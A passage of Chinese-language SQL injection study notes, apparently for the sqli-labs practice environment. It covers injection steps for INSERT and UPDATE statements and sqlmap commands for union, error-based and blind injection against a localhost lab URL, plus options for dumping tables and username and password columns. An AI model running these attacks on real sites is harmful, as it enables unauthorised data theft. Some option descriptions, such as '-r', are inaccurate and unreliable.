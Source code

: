 > **基础例句**：`INSERT INTO  users VALUES(16,'admin5','admin5'),(17,'admin5','admin5');`
>
> 判断插入点为插入语句值的第几位字段，再判断闭合符号，再构造语句

### 改（update）

> **基础例句**： `UPDATE users SET username= 123, password= 321 WHERE id=10;`
>
> 先判断更新为第几位字段，再判断字段名称，再判断闭合符号，最后构造语句







# 使用工具进行注入



## sqlmap

### 安装sqlmap
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```



### 基础探测命令

`python`

**联合查询注入：**

```text
.\sqlmap.py -u "http://localhost:8081/sql/Less-1/?id=1" --dbms=MySQL --technique=U -v 3
```

**报错注入：**

```text
.\sqlmap.py -u "http://localhost:8081/sql/Less-1/?id=1" --dbms=MySQL --technique=E -v 3
```

**布尔盲注：**

```text
.\sqlmap.py -u "http://localhost:8081/sql/Less-1/?id=1" --dbms=MySQL --technique=B -v 3
```

**时间盲注：**

```text
.\sqlmap.py -u "http://localhost:8081/sql/Less-1/?id=1" --dbms=MySQL --technique=T -v 3
```



### 爆破数据
```sql
● -r :以递归方式扫描指定目录下的所有文件。
● -u :连接目标网站并进行扫描。
● --dbs：列出数据库的名称。 示例：--dbs
● --tables：列出数据库中的所有表。 示例：--tables
● --columns：列出指定表中的所有列。 示例：--columns -T users
● --dump：导出指定表中的数据。 示例：--dump -T users
● --current-db 当前使用的数据库
● -D 库名 -T 表名 --columns
● -C 指定字段名，爆破具体数据 示例： -C username,password
● --batch 自动化
● --technique=u(联合查询)&&E(报错查询)&&B(布尔盲注)&&T(时间盲注)   选择盲注类型
● -force-ssl  可设置目标地址是https协议
```